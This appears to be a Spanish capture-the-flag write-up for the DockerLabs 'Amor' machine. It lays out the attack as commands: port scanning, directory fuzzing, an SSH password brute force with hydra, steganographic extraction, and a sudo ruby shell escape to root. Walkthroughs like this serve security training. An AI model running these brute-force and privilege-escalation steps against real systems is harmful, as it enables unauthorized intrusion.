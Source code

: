 # 📄 Informe Técnico – Máquina Vulnerable **Amor** (DockerLabs)

**Nivel:** Fácil
**Autor:** AlejandroSL
**Fecha:** 10/05/2025

---

## 📌 Objetivo

Acceder a la máquina vulnerable **Amor**, identificar los servicios expuestos, obtener acceso mediante explotación remota y realizar escalada de privilegios hasta obtener acceso como **root**.

---

## 🔧 Despliegue de la máquina

1. Descargamos la máquina desde DockerLabs y la descomprimimos:

   ```bash
   unzip amor.zip
   sudo bash auto_deploy.sh amor.tar
   ```

   ![](/Amor/Imagenes/Despliegue.jpeg)

2. Verificamos la conectividad mediante `ping`:

   ```bash
   ping -c1 172.17.0.2
   ```

   ![](/Amor/Imagenes/Ping.jpeg)

---

## 🔍 Escaneo de Puertos

1. Escaneo rápido de puertos abiertos:

   ```bash
   sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
   ```

   Resultado: Puertos **22 (SSH)** y **80 (HTTP)** abiertos.
   ![](/Amor/Imagenes/Puerto.jpeg)

2. Extracción de puertos desde el archivo generado:

   ```bash
   extractPorts allPorts.txt
   ```

3. Escaneo profundo con scripts y detección de versiones:

   ```bash
   nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
   ```

   ![](/Amor/Imagenes/Servicios.jpeg)

---

## 🌐 Enumeración Web

Accedimos a la web en `http://172.17.0.2` y observamos varias notificaciones que revelaban nombres de usuarios: **Carlos** y **Carlota**.
![](/Amor/Imagenes/Pagina.jpeg)

---

## 🪓 Fuzzing de directorios

Usamos `gobuster` para buscar directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2/javascript/jquery/ \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```

Resultado: Se encontró el directorio **/javascript/jquery/jquery**
![](/Amor/Imagenes/Gobuster.jpeg)
![](/Amor/Imagenes/Gobusterdir.jpeg)

---

## 🔐 Fuerza Bruta SSH

Se intentaron múltiples combinaciones de usuarios. Finalmente, usando `hydra` se logró acceder al servicio **SSH** como el usuario **carlota**:

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
```

Credenciales válidas:

* **Usuario:** carlota
* **Contraseña:** babygirl
  ![](/Amor/Imagenes/Hydra.jpeg)

---

## 🖥️ Acceso a la máquina

Ingresamos exitosamente mediante SSH:

```bash
ssh carlota@172.17.0.2
```

![](/Amor/Imagenes/SSH.jpeg)

---

## 🕵️ Revisión de archivos y análisis de imagen

Dentro del directorio `/home/carlota/Desktop/fotos/vacaciones/` encontramos un archivo `imagen.jpg`. Lo transferimos a nuestra máquina con un servidor web:

En la máquina vulnerable:

```bash
python3 -m http.server 8080
```

En nuestra máquina atacante:

```bash
wget http://172.17.0.2:8080/imagen.jpg
```

![](/Amor/Imagenes/Descarga.jpeg)

Revisamos los metadatos de la imagen:

```bash
exiftool imagen.jpg
```

![](/Amor/Imagenes/Metadatos.jpeg)

---

## 🧪 Esteganografía y Decodificación

Usamos `steghide` para extraer información oculta en la imagen:

```bash
steghide extract -sf imagen.jpg
```

> No se solicitó contraseña (se presionó Enter).

Se extrajo un archivo `secret.txt` que contenía una cadena en **Base64**. La decodificamos:

```bash
echo 'c2VzbGFjYXNhZGVwaW55cG9u' | base64 -d > script.sh
cat script.sh
```

Contenido extraído:
**eslacasadepinypon**
![](/Amor/Imagenes/datos.jpe)

---

## 🧨 Escalada de Privilegios

Ejecutamos `sudo -l` para ver los comandos disponibles con permisos de **sudo**:

```bash
sudo -l
```

Se nos permite ejecutar este comando **sin contraseña**:

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Esto nos da una **shell como root**:

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

![](/Amor/Imagenes/root.jpeg)

---

## ✅ Conclusión

* Se identificaron servicios clave mediante escaneo de puertos.
* Se encontraron usuarios desde la web y se obtuvo acceso por fuerza bruta SSH.
* Se analizó una imagen que contenía una cadena Base64 con una palabra clave importante.
* Finalmente, se logró escalar privilegios a **root** explotando permisos `sudo` sobre un binario seguro mal configurado.
